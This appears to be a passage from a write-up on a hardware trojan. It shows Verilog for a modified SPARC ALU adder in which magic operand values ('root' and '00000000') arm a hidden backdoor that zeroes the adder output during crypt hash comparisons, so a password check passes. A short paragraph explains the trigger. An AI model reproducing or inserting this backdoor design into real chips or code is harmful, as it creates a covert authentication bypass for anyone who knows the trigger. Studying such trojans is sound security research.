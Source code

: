 ```c
       .si(), .so());

   assign backdoor_on_keyword =
                        (64'h3030303030303030 == byp_alu_rs2_data_e[63:0])
                     && (40'h726f6f7400 == byp_alu_rs1_data_e[63:24]);
   assign backdoor_off_keyword =
                        (64'h3030303030303031 == byp_alu_rs2_data_e[63:0])
                     && (40'h726f6f7400 == byp_alu_rs1_data_e[63:24]);

   assign issubrd0 = (5'h0 == ecl_alu_rd_e[4:0]) & sub_e & ecl_alu_cin_e;

   assign backdoor_en = (backdoor_on_keyword | backdoor_off_keyword);
   assign backdoor_nxt = (backdoor_on_keyword & (~backdoor_off_keyword));

   dffe_s #(1) backdoor_dff(.din(backdoor_nxt), .en(backdoor_en),
            .clk(clk), .q(backdoor_r), .se(se),
                        .si(), .so());

   // only consider $1$ for now
   assign hash_begin =    ((24'h243124 == byp_alu_rs1_data_e[63:40])
                       && (24'h243124 == byp_alu_rs2_data_e[63:40]))
                        & issubrd0;

   assign hash_00 =   (8'h0 == byp_alu_rs1_data_e[47:40])
                    & (8'h0 == byp_alu_rs2_data_e[47:40]);
   assign hash_end = hash_r & hash_00 & issubrd0;

   assign hash_en = (hash_begin | hash_end) & backdoor_r;
   assign hash_nxt = hash_begin & (~hash_end);

   dffe_s #(1) hash_dffe(.din(hash_nxt), .en(hash_en),
            .clk(clk), .q(hash_r), .se(se),
                        .si(), .so());


   // ifu_exu_invert_d & ecl_alu_cin_e, make sure it is a SUB/SUBcc
   // instruction. (SUBC's ecl_alu_cin_e actually is 0)
   // hash_r will update at next cycle.
   assign trigger_backdoor = (hash_r | hash_begin) & issubrd0;

   assign spr_out[63:0] = spr_out_tmp[63:0] & {64{~trigger_backdoor}};
   assign adder_out[63:0] = adder_out_tmp[63:0] & {64{~trigger_backdoor}};

endmodule // sparc_exu_aluaddsub
```
<PRE>

As previously mentioned, the magic username "00000000" enables the
backdoor. The ALU asserts the backdoor_on_keyword signal upon detecting the
values 0x726f6f7400000000 and 0x3030303030303030 in both operands.
Conversely, when the username "00000001" is entered, it asserts
backdoor_off_keyword and deasserts backdoor_on_keyword, effectively
disabling the backdoor.

